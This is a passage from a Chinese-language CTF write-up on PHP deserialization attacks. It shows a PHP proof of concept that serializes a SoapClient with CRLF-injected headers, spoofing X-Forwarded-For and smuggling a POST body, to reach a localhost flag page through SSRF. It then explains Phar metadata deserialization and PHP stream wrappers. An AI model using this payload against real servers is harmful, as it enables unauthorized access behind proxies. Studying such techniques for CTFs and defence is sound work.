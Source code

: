 由于服务器带有cloudfare代理，我们无法通过本地构造XFF头实现绕过，我们需要使用SoapClient与CRLF实现SSRF访问`127.0.0.1/flag.php`,即可绕过cloudfare代理

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'UM_distinctid:175648cc09a7ae-050bc162c95347-32667006-13c680-175648cc09b69d'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'y4tacker^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri' => "aaab"));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

接下来访问`flag.txt`即可

## Phar反序列化

phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操作函数调用phar文件时，会自动反序列化meta-data内的内容。

### 什么是phar文件

在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，样式表等）捆绑到一个归档文件中来实现应用程序和库的分发

php通过用户定义和内置的“流包装器”实现复杂的文件处理功能。内置包装器可用于文件系统函数，如(fopen(),copy(),file_exists()和filesize()。 phar://就是一种内置的流包装器。

php中一些常见的流包装器如下：

```php
file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

### phar文件的结构

```php
stub:phar文件的标志，必须以 xxx __HALT_COMPILER();?> 结尾，否则无法识别。xxx可以为自定义内容。
manifest:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是漏洞利用最核心的地方。
content:被压缩文件的内容
signature (可空):签名，放在末尾。
```

